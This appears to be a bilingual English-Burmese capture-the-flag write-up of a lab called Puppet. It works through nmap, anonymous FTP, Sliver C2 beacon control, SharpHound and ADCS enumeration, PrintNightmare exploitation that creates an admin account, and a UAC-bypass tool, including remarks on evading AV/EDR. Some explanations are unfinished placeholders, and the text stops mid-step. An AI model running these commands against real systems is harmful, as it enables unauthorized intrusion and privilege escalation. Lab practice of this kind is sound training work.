#Puppet



# Flag 1
At firts Scan using nmap

```cmd
nmap 10.13.38.33 -sC -sV -Pn
```


```cmd
Starting Nmap 7.95 ( https://nmap.org ) at 2026-10-27 21:01 +0630
Nmap scan report for 10.13.38.33
Host is up (0.38s latency).
Not shown: 996 closed tcp ports (reset)
PORT      STATE SERVICE        VERSION
21/tcp    open  ftp            vsftpd 3.0.5
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| -rw----r--    1 0        0            2119 Oct 11  2024 red_127.0.0.1.cfg
|_-rwxr-xr-x    1 0        0        36515304 Oct 12  2024 sliver-client_linux
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.10.14.246
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
22/tcp    open  ssh            OpenSSH 8.9p1 Ubuntu 3ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 e2:70:df:74:8c:ed:e9:81:46:16:e4:88:bc:7f:69:32 (ECDSA)
|_  256 bf:f0:f1:8f:5b:66:93:9b:cb:8b:bc:78:37:b8:b8:3a (ED25519)
8443/tcp  open  ssl/https-alt?
| ssl-cert: Subject: commonName=0.0.0.0
| Subject Alternative Name: IP Address:0.0.0.0
| Not valid before: 2024-12-24T14:49:26
|_Not valid after:  2027-12-24T14:49:26
|_ssl-date: TLS randomness does not represent time
31337/tcp open  ssl/Elite?
| ssl-cert: Subject: commonName=multiplayer
| Subject Alternative Name: DNS:multiplayer
| Not valid before: 2024-05-11T12:31:48
|_Not valid after:  2027-05-11T12:31:48
|_ssl-date: TLS randomness does not represent time
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.62 seconds
```

And then To get persistance using silver2 framework

```cmd
ftp 10.13.38.33 
```



```
cmd
┌──(kali㉿kali)-[~/Downloads]
└─$ ftp 10.13.38.33
Connected to 10.13.38.33.
220 (vsFTPd 3.0.5)
Name (10.13.38.33:kali): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> mget red_127.0.0.1.cfg sliver-client_linux
mget red_127.0.0.1.cfg [anpqy?]? y
229 Entering Extended Passive Mode (|||27051|)
150 Opening BINARY mode data connection for red_127.0.0.1.cfg (2119 bytes).
100% |**********************************************************************************************************************************************************************************************|  2119      779.99 KiB/s    00:00 ETA
226 Transfer complete.
2119 bytes received in 00:00 (6.45 KiB/s)
mget sliver-client_linux [anpqy?]? y
229 Entering Extended Passive Mode (|||33988|)
150 Opening BINARY mode data connection for sliver-client_linux (36515304 bytes).
 83% |*************************************************************************************************************************************************************                                 | 29693 KiB   24.78 KiB/s    04:00 ETA 100% |**********************************************************************************************************************************************************************************************| 35659 KiB   25.31 KiB/s    00:00 ETA
226 Transfer complete.
36515304 bytes received in 23:28 (25.31 KiB/s)
ftp>     

```

#### mgbet command
```cmd
mget red-127.0.0.1.cfg sliver-client_linux 

mget is ....
red-127.0.0.1.cfg is .....
sliver-client_linux is ......

```

# To get initial access

```
cmd
sudo socat TCP-LISTEN:31337,reuseaddr,fork TCP:10.13.38.33 
```

### sudo: Administrator (Root) အဆင့်နဲ့ အလုပ်လုပ်ခွင့် တောင်းတာ ဖြစ်ပါတယ်။

### socat: Network Traffic တွေကို ကြားကနေ ဖမ်းယူပေးပြီး လမ်းကြောင်းပြောင်း (Port Forwarding / Tunneling) လုပ်ပေးတဲ့ Linux Tool တစ်ခု ဖြစ်ပါတယ်။
### 
### TCP-LISTEN:31337: သင့်ရဲ့ ကွန်ပျူတာ (Localhost) ပေါ်မှာ Port နံပါတ် 31337 ကို ဖွင့်ပြီး အဝင်အထွက် အချက်အလက်တွေကို စောင့်ဆိုင်းလက်ခံဖို့ (Listen) ခိုင်းထားတာပါ။
### 
### reuseaddr: Port ပိတ်သွားရင်တောင် ချက်ချင်းပြန်သုံးလို့ရအောင် လုပ်ပေးပြီး Error တက်တာကို ကာကွယ်ပေးပါတယ်။
### 
### fork: ချိတ်ဆက်မှုအသစ်တွေ အများကြီး တစ်ပြိုင်နက်တည်း ဝင်လာရင်လည်း အလုပ်လုပ်နိုင်အောင် Process အသစ်တွေ ခွဲထုတ်ပေးပါတယ်။
### 
### TCP:10.13.38.33:31337: သင့်စက်ဆီ ရောက်လာသမျှ Data တွေကို Target IP ဖြစ်တဲ့ 10.13.38.33 ရဲ့ Port 31337 ဆီကို တိုက်ရိုက် လမ်းကြောင်းလွှဲ (Forward) ပို့ပေးလိုက်ပါ လို့ အမိန့်ပေးတာ ဖြစ်ပါတယ်။

### Config ဖိုင်ထဲမှာ 127.0.0.1 လို့ ဂျိုကီထိုး (သို့မဟုတ်) သတ်မှတ်ထားတဲ့အတွက် သင့် Client က သင့်စက်ပေါ်က Port 31337 ကိုပဲ အမြဲတမ်း ဝင်ဖို့ ရှာနေပါမယ်။

### ဒါပေမဲ့ တကယ့် C2 Server ကြီးက တခြား IP (10.13.38.33) မှာ ရှိနေတာပါ။
### 
### အဲ့ဒီအခါ socat ကို သုံးလိုက်တာဟာ သင့်စက်ပေါ်မှာ "ဝင်ပေါက် တံခါးအသစ် (Entrance / Bridge)" တစ်ခု တည်ဆောက်လိုက်တာနဲ့ တူပါတယ်။
### 
### Client က သင့်စက်ရဲ့ ဝင်ပေါက် (127.0.0.1:31337) ကနေ ဝင်လိုက်တာနဲ့ socat က အဲ့ဒီကနေတဆင့် တကယ့် Server ကြီး ရှိရာ (10.13.38.33:31337) ဆီကို လမ်းကြောင်းပြောင်းပြီး တန်းရောက်သွားအောင် ချိတ်ဆက်ပေးလိုက်တာ ဖြစ်ပါတယ်။

```cmd
┌──(kali㉿kali)-[~/Downloads]
└─$ ./sliver-client_linux import ./red_127.0.0.1.cfg
2026/10/27 22:39:05 Saved new client config to: /home/kali/.sliver-client/configs/red_127.0.0.1.cfg
```



sliver-client_linux ဆိုတာ ပရိုဂရမ် (App) ပါ။

red_127.0.0.1.cfg ဆိုတာကတော့ အဲ့ဒီ App ထဲ ထည့်သုံးရမယ့် သော့ချက် (Config Key) ပါ။

App ကို ဖွင့်လိုက်တဲ့အခါ သော့ချက် (Config) ကို အရင် မထည့်ရသေးလို့ "Config ဖိုင် ရှာမတွေ့ဘူး" လို့ Error တက်တာ ဖြစ်ပါတယ်။


```cmd
┌──(kali㉿kali)-[~/Downloads]
└─$ ./sliver-client_linux
```

To connect sliver server



```cmd
sliver > beacons
```

### becacons is .....



```cmd
sliver (BLUSHING_ERROR) > interactive
```



### interactive command ဆိုတာ Beacon Mode (မကြာခဏ အချိန်ခြားပြီးမှ သတင်းလာပို့တဲ့ အဆင့်) ကနေ Interactive Session Mode (တိုက်ရိုက် Real-time ချိတ်ဆက်မှု အဆင့်) သို့ ပြောင်းလဲဖို့အတွက် C2 Server ကနေ Target စက်ဆီ အမိန့်ပေးပို့တာ ဖြစ်ပါတယ်။

And then use session id

```cmd
use session_id
```



### Puppet is Configuration Management Tool: DevOps နဲ့ System Administration မှာ Puppet ဆိုတာ Server ရာပေါင်းများစွာဆီ ဆော့ဖ်ဝဲလ်တွေ အလိုအလျောက် ထည့်သွင်းပေးတာ၊ Script တွေ Run ပေးတာနဲ့ Security Settings တွေ သတ်မှတ်ပေးတဲ့ Infrastructure Automation Tool တစ်ခု ဖြစ်ပါတယ်။

### ဘာကြောင့် whoami နဲ့ sa-whoami ကွာခြားတာလဲ။
### Standard whoami (Built-in Binary):
### 
### Windows ရဲ့ မူလ whoami.exe ကို cmd.exe သို့မဟုတ် powershell.exe (shell) ထဲကနေ ခေါ်သုံးတာ ဖြစ်ပါတယ်။
### 
### whoami.exe Process ကို Target စက်ရဲ့ Disk ပေါ်ကနေ သီးသန့် New Child Process အဖြစ် Spawn လုပ်ပြီး Run တာကြောင့် လုံခြုံရေးစနစ်တွေ (EDR/AV) က ပိုပြီး သတိထားမိလွယ်ပါတယ် (Detection Risk မြင့်မားသည်)။
### 
### sa-whoami (Sliver Armory Extension / BOF):
### 
### SA ဆိုတာ Situational Awareness ကို အတိုကောက် ခေါ်တာ ဖြစ်ပါတယ်။
### 
### ဒီ Extension ဟာ Target စက်ပေါ်မှာ whoami.exe Process သီးသန့် မဖွင့်ဘဲ Memory (RAM) ထဲမှာတင် မသိမသာ Direct Windows API call တွေနဲ့ Execute လုပ် ပြီး အချက်အလက်တွေကို ယူပေးတာ ဖြစ်ပါတယ်။
### 
### Target စက်ရဲ့ User Name, Domain Name, Groups နဲ့ Privileges (အခွင့်အရေးများ) ကို EDR/AV ရဲ့ ရေဒါအောက်ကနေ ခြေရာဖျောက်ပြီး မြန်မြန်ဆန်ဆန် စစ်ဆေးနိုင်တာကြောင့် C2 Operator တွေ အသုံးများပါတယ်။

At first I install this 
```cmd
armory install sa-whoami
```

To use sa-whoami



Enter 
```cmd
cd c://temp
```

and then install sharphound
```cmd
armory install sharp-hound-4
```

and run 
```cmd
sharp-hound-4 -s -t 300 -- -c all,gplocalgroup
```



and then go to fiel path c://tmp
```cmd
download 20261027120553_BloodHound.zip
```



And then install sa-adcs-enum
```cmd
armory install sa-adcs-enum
```
---

### 📊 တိုက်ရိုက် နှိုင်းယှဉ်ချက် (At a Glance)

| စစ်ဆေးချက် | `sa-adcs-enum` သုံးလျှင် (USE) | မသုံးလျှင် (NOT USE) |
| --- | --- | --- |
| **AD CS အားနည်းချက် (ESC Vulnerabilities)** | Template သတ်မှတ်ချက် အမှားများကို အလွယ်တကူ တွေ့ရှိနိုင်ပြီး ကြိုတင် ပြင်ဆင်နိုင်မည်။ | အမှားများကို မမြင်နိုင်ဘဲ **Domain Impersonation / Privilege Escalation** အန္တရာယ် ရှိနေမည်။ |
| **User Rights & Permissions** | မည်သည့် User က မည်သည့် Certificate ကို တောင်းဆိုခွင့် (Enrollment) ရှိမှန်း တိကျစွာ သိရှိနိုင်သည်။ | ပုံမှန် Domain User ထံ မလိုအပ်ဘဲ အခွင့်အရေး ရောက်နေသည်ကို ရှာမတွေ့နိုင်ပါ။ |
| **လုံခြုံရေး ပေါ်လစီ (Hardening)** | Certificate Authority (CA) ၏ လုံခြုံရေး ဟာကွက်များကို စနစ်တကျ ပိတ်ပင်နိုင်မည်။ | အရေးကြီးသော Certificate များကို အလိုအလျောက် ထုတ်ပေးနေမိမည်။ |

---

use
```cmd
sa-adcs-enum
```



### sa-netstat is Target စက်ပေါ်ရှိ Active Network Connections များ၊ ပွင့်နေသော Listening Ports များနှင့် ၎င်းတို့ကို သုံးစွဲနေသည့် Process IDs (PIDs) / Executable ဖိုင်များ ကို ရှာဖွေစစ်ဆေးရန် (Enumeration လုပ်ရန်) အသုံးပြုပါသည်။


To search flag use this command

```cmd
execute -o -- cmd.exe /c dir "C:\Users\Bruce.Smith\Desktop"
execute -o -- cmd.exe /c type "C:\Users\Bruce.Smith\Desktop\flag.txt"
```

# Flag 2
### PrivescCheck is PrivescCheck ဆိုတာ Windows Operating System တွေမှာ Privilege Escalation (အခွင့်အရေး/ဂုဏ်ပုဒ် တိုးမြှင့်ခြင်း) ပြုလုပ်နိုင်မယ့် လုံခြုံရေး အားနည်းချက်တွေနဲ့ မှားယွင်းပြင်ဆင်ထားချက် (Misconfigurations) တွေကို အလိုအလျောက် လိုက်လံ ရှာဖွေစစ်ဆေးပေးတဲ့ PowerShell Script တစ်ခု ဖြစ်ပါတယ်။

### သူက ဘာအတွက် အသုံးပြုတာလဲ?
### Red Team ကာကွယ်ရေးစစ်ဆေးသူများ သို့မဟုတ် Penetration Tester တွေက ပစ်မှတ် Windows စက်တစ်ခုပေါ်ကို Normal User (ပုံမှန် အခွင့်အရေးပဲရှိတဲ့ အကောင့်) အဖြစ် စတင် ဝင်ရောက်နိုင်ခဲ့တဲ့အခါ SYSTEM သို့မဟုတ် Administrator (အမြင့်ဆုံး အခွင့်အရေး) အဖြစ် အဆင့်တိုးမြှင့်နိုင်ဖို့ နည်းလမ်းတွေကို ရှာဖွေတဲ့နေရာမှာ ဒီ tool ကို သုံးကြပါတယ်။

First need to install
```cmd
armory install sharpsh
```

```cmd
 sharpsh -t 300 -- -c invoke-privesccheck -u c:\\temp\\PrivescCheck.ps1
 ```

ဒီ command ဟာ Sliver C2 ရဲ့ sharpsh (PowerShell Script Execution Extension) ကို အသုံးပြုပြီး ပစ်မှတ် Windows စက်ပေါ်မှာရှိတဲ့ PrivescCheck.ps1 ဆိုတဲ့ PowerShell script ကို ခေါ်ယူကာ SYSTEM သို့မဟုတ် Administrator အခွင့်အရေး ရရှိနိုင်မယ့် လုံခြုံရေး အားနည်းချက်တွေကို ရှာဖွေခိုင်းတာ ဖြစ်ပါတယ်။

🔍 Command အစိတ်အပိုင်းတစ်ခုချင်းစီ၏ အဓိပ္ပာယ်
sharpsh :

Sliver မှာ PowerShell script တွေကို အသုံးပြုနိုင်အောင် ပြုလုပ်ထားတဲ့ Extension / Tool တစ်ခု ဖြစ်ပါတယ်။

At first need to download PrivescCheck 
```cmd
wget https://github.com/itm4n/PrivescCheck/releases/latest/download/PrivescCheck.ps1  
```

And upload file to C:\\temp\\PrivescCheck.ps1
```cmd
upload /home/kali/Downloads/PrivescCheck.ps1 C:\temp\PrivescCheck.ps1
```



check what vuln have
```cmd
sharpsh -t 300 -- -c invoke-privesccheck -u c:\\temp\\tempPrivescCheck.ps1
```



### PrintNightmare (CVE-2021-34527 / CVE-2021-1675) သည် Windows Print Spooler service (spoolsv.exe) တွင် တည်ရှိသော အမှတ်မထင် အခွင့်အရေး ရရှိသွားနိုင်သည့် လုံခြုံရေး အားနည်းချက် (Remote Code Execution / Privilege Escalation) ဖြစ်ပါသည်။

First download 
```cmd
git clone https://github.com/JohnHammond/CVE-2021-34527.git
```

Upload file
```cmd
upload /home/kali/Downloads/CVE-2021-34527/CVE-2021-34527.ps1 C:/Windows/temp/CVE-2021-34527.ps1
```



```cmd
execute -o -- powershell.exe -ExecutionPolicy Bypass -NoProfile -Command ". C:/Windows/temp/CVE-2021-34527.ps1; Invoke-Nightmare -NewUser adm1n -NewPassword P@ssw0rd"
```

### ဒီ Command က Windows စနစ်တွေမှာ ရှိတဲ့ Print Spooler ဝန်ဆောင်မှုရဲ့ အားနည်းချက် (Vulnerability) တစ်ခုဖြစ်တဲ့ CVE-2021-34527 (PrintNightmare လို့လည်း ခေါ်ပါတယ်) ကို အသုံးချပြီး Windows စနစ်ထဲမှာ Admin အကောင့်အသစ် (New Administrator Account) တစ်ခု ဖန်တီးဖို့ လုပ်ဆောင်တာ ဖြစ်ပါတယ်။



```cmd
runas -u adm1n -P "P@ssw0rd" -p "C:\ProgramData\Puppet\puppet-update.exe"
```

ဒီ Command ကတော့ Sliver C2 ထဲမှာ **ဖန်တီးလိုက်တဲ့ Admin အကောင့်အသစ် (`adm1n`) ရဲ့ ခွင့်ပြုချက် (Privileges) ကို အသုံးပြုပြီး Program တစ်ခုကို Run ခိုင်းတာ** ဖြစ်ပါတယ်။

အသေးစိတ် ရှင်းပြရရင် -

1. **`runas`**
* Sliver C2 မှာ အခြား User အကောင့်တစ်ခုရဲ့ ခွင့်ပြုချက်နဲ့ Command တွေကို run ဖို့ (Execute as another user) သုံးတဲ့ command ဖြစ်ပါတယ်။


2. **`-u adm1n`**
* ခုနက PrintNightmare exploit နဲ့ အသစ်ဖန်တီးထားတဲ့ username က **`adm1n`** ဆိုတဲ့ အကောင့်ကို သုံးမယ်လို့ ညွှန်ပြတာပါ။


3. **`-P "P@ssw0rd"`**
* အဲ့ဒီ `adm1n` အကောင့်ရဲ့ Password က **`P@ssw0rd`** ဖြစ်တယ်လို့ ဖြည့်သွင်း authentication လုပ်တာပါ။


4. **`-p "C:\ProgramData\Puppet\puppet-update.exe"`**
* အဲ့ဒီ `adm1n` ရဲ့ Administrator အဆင့် အာဏာ (Privileges) ကိုသုံးပြီး Target စနစ်ထဲက သတ်မှတ်ထားတဲ့ ပရိုဂရမ် (ဒီနေရာမှာ VulnLab ရဲ့ Puppet lab နဲ့ပတ်သက်တဲ့ `.exe` ဖိုင် တစ်ခုခု ဒါမှမဟုတ် Payload/Beacon တစ်ခုခု) ကို Run ခိုင်းလိုက်တာ ဖြစ်ပါတယ်။


---

**ခြုံပြောရရင်တော့:** အသစ်ရလာတဲ့ Administrator အကောင့် (`adm1n`) နဲ့ System ထဲမှာ ရှိတဲ့ Malware သို့မဟုတ် C2 Payload တစ်ခုကို Administrator အဆင့် (Privileged context) နဲ့ ဆက်လက် အလုပ်လုပ်ခိုင်းလိုက်တဲ့ Red Teaming ရဲ့ **Privilege Execution / Lateral Movement** အဆင့်ပဲ ဖြစ်ပါတယ်။



check what permission can do this account

```cmd
sa-whoami
```



**UAC-BOF-Bonanza** ဆိုတာကတော့ Red Teaming နဲ့ Penetration Testing လုပ်တဲ့အခါ Windows စနစ်တွေမှာ **UAC (User Account Control) ကို Bypass လုပ်ဖို့အတွက် အသုံးပြုတဲ့ BOF (Beacon Object File) တွေ စုစည်းထားတဲ့ Open-source repository တစ်ခု** ဖြစ်ပါတယ်။

အဓိက အချက်တွေကို ရှင်းပြရရင် -

1. **UAC Bypass ဆိုတာ ဘာလဲ?**
* Windows မှာ Administrator အဆင့်ရှိတဲ့ User တစ်ယောက်အနေနဲ့ Login ဝင်ထားရင်တောင် Software တစ်ခုခုက System ကို ပြောင်းလဲမှုလုပ်တော့မယ်ဆိုရင် "Do you want to allow this app to make changes to your device?" ဆိုပြီး အတည်ပြုချက်တောင်းတဲ့ (UAC prompt) Pop-up ကျလာတတ်ပါတယ်။
* UAC Bypass ဆိုတာက အဲ့ဒီ Pop-up တားမြစ်ချက်ကို ကျော်လွှတ်ပြီး အသုံးပြုသူရဲ့ ခွင့်ပြုချက် တောင်းခံစရာမလိုဘဲ Administrator အဆင့်နဲ့ တိုက်ရိုက် အလုပ်လုပ်လို့ရအောင် လုပ်ဆောင်တာ ဖြစ်ပါတယ်။


2. **BOF (Beacon Object File) ဆိုတာ ဘာလဲ?**
* Cobalt Strike, Sliver စတဲ့ C2 (Command and Control) Tool တွေမှာ အသုံးပြုတဲ့ ပေါ့ပါးပြီး ထိရောက်တဲ့ Extension တွေ ဖြစ်ပါတယ်။
* ပုံမှန် .exe တွေလိုမျိုး Process အသစ်အကြီးကြီးတွေ ဖွင့်စရာမလိုဘဲ Target စနစ်ရဲ့ Memory ထဲမှာ တိုက်ရိုက် run နိုင်တဲ့အတွက် Antivirus (AV) နဲ့ EDR တွေရဲ့ စစ်ဆေးမှုကို ရှောင်ရှားနိုင်ဖို့ (Defense Evasion) အများဆုံး အသုံးပြုကြပါတယ်။


**ခြုံပြောရရင်တော့:** `UAC-BOF-Bonanza` repository ထဲမှာ Windows ရဲ့ UAC ကို အမျိုးမျိုးသော နည်းလမ်းတွေ (ဥပမာ- SspiUacBypass ပုံစံမျိုးစတဲ့ Technique တွေ) နဲ့ ကျော်ဖြတ်နိုင်မယ့် Source Code တွေ ပါဝင်တာကြောင့် Red Teamer တွေက Sliver လို C2 တွေမှာ Extension အနေနဲ့ တပ်ဆင်ပြီး အသုံးပြုကြတာ ဖြစ်ပါတယ်။

```cmd
git clone https://github.com/icyguider/UAC-BOF-Bonanza.git
```

First need 
### သင့်ရဲ့ Kali Linux စနစ်မှာ Windows အတွက် cross-compile လုပ်လို့ရမယ့် MinGW (x86_64-w64-mingw32-g++) compiler ပရိုဂရမ် မထည့်ရသေးလို့ (သို့မဟုတ်) မရှိသေးလို့ ဖြစ်ပါတယ်။

